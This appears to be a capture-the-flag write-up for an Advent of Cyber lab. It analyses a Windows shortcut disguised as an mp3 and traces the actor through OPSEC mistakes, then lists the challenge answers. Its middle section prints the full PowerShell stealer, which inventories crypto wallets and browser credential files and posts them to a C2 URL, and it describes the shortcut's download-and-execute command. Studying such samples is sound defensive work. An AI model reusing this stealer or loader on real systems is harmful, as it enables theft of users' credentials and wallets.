


# Day 1 - OPSEC

## Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

In this room, the following are covered:

1. Analyzing lnk files
2. Using OPSEC failures to track down malicious actors and their activities. This can be done by looking for crumbs of information they leave behind (like common usernames on different websites, etc.)



We are taken to an youtube to mp3 / mp4 downloader web page. Here we make use of any Youtube URL and then click on Download. We get a zip file downloaded and upon extraction, we can see 2 mp3 files namely song.mp3 and somg.mp3:


Running the file command to identify the file type, we see the following:


The file somg.mp3 is an MS Windows shortcut (which should use the .lnk extension). To dig deeper into this suspicious file, we can make use of exiftool:


The path, working directory and command line parameters reveal something very interesting. We see that some sort of powershell script is embedded into this lnk file.

What this PowerShell command does:

- The `ep Bypass -nop` flags disable PowerShell's usual
restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

Visiting the GitHub link on our web browser, we get to see the contents of `IS.ps1`:

```bash
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server

```

The script performs some very suspicious tasks like collecting credential data from browser files, searching for crypto wallets and eventually sending them over to a C2 (Command and Control Server).

### Gathering more details on M.M:

We were able to find a GitHub URL embedded in the lnk file disguised as an mp3 file. There are many paths we could take to continue our investigation. We could investigate the website further, analyze its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

We can also look more on M.M on GitHub, since that is where the powershell file is being downloaded from. On looking up the string “Created by the one and only M.M.”

On navigating to the issues section of Bloatware’s CryptoWallet-Search repository, we see an interesting interaction between MM and Bloatware-WarevilleTHM:


Based on the description in the introduction of the challenge, we can conclude that M.M. is indeed Mayor Malware!


This is a classic case of OPSEC failure.

### Operational Security (OPSEC)

OPSEC is a term originally coined in the military to refer to the process of  protecting sensitive information and operations from adversaries. The  goal is to identify and eliminate potential vulnerabilities before the  attacker can learn their identity.

In the context of cyber security, when malicious actors fail to follow proper OPSEC practices, they might leave digital traces that can be pieced together to reveal their identity. Some common OPSEC mistakes include:

- Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub (Like in this current scenario) with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

We know the attacker left a distinctive signature in the PowerShell code (MM). This allowed us to search for related repositories and  issues pages on GitHub. We then discovered an Issues page where the  attacker engaged in discussions, providing more context and linking their activity to other projects.

## Questions

1. Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 



Ans: **Tyler Ramsbey**

1. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

Ans: `http://papash3ll[.]thm/data`

1. Who is M.M? Maybe his Github profile page would provide clues?

Ans: **Mayor Malware**

1. What is the number of commits on the GitHub repo where the issue was raised?


Ans: **1**
